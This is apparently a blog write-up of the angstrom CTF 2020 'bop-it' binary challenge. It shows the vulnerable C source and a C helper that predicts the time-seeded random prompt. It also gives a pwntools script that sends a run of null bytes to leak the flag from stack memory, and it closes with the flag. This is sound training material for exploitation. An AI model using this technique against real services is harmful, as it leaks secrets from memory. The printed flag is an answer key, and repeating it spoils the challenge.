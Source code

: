 ```yaml
---
layout: post
title:  "Writeup bop-it angstrom ctf 2020"
date:   2020-03-23 #13:52:01
categories: ctf
description: this article explains about my writeup.
tags: ctf writeup
---
```


Description:

    Can you bop it? Source. Connect with nc shell.actf.co 20702.

    Author: kmh

Solution:

we are given elf binary , and a source code written in c

    bop_it: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
    dynamically linked, interpreter /lib64/l, BuildID[sha1]=47225f15fc7f75398783b4e93d65627f37711392,
    for GNU/Linux 3.2.0, not stripped


this is the source code :
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}

{% endhighlight %}

we have to answer the correct question from
{% highlight c %}
const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};
srand(time(NULL));
char *action = actions[rand()%4];
{% endhighlight %}

till we got "Flag it!\n" as the answer , so the flag will loaded to the stack
and we can try to leak the flag by using null byte poisoning

this is my exploit to answer the correct question
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main(){
  srand(time(NULL));

  const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

  char c;
	char *action = actions[rand()%4];
  write(1, action, 1);
  // wrong[strlen(wrong)-3] = action[0];
  // write(1, wrong, strlen(wrong));
}
{% endhighlight %}

and this is the python code to send our payload
{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
import subprocess
context.update(arch="amd64", endian="little", os="linux", log_level="debug",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/angstrom2020/pwn/bop-it/bop_it")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)
    guess = subprocess.Popen(['./s'] , stdout=PIPE).communicate()[0]
    log.info("my guess : " + (guess))
    p = guess
    x = "\x00" *120 # 100 works , 120 works too
    r.sendline(p)
    r.sendline(x)
    r.interactive()
    # r.recvline(timeout=0)
    r.close()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("shell.actf.co", 20702)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and we got our flag

<img src='/images/2020-03-23-210546_672x515_scrot.png' />

FLAG : actf{bopp1ty_bop_bOp_b0p}
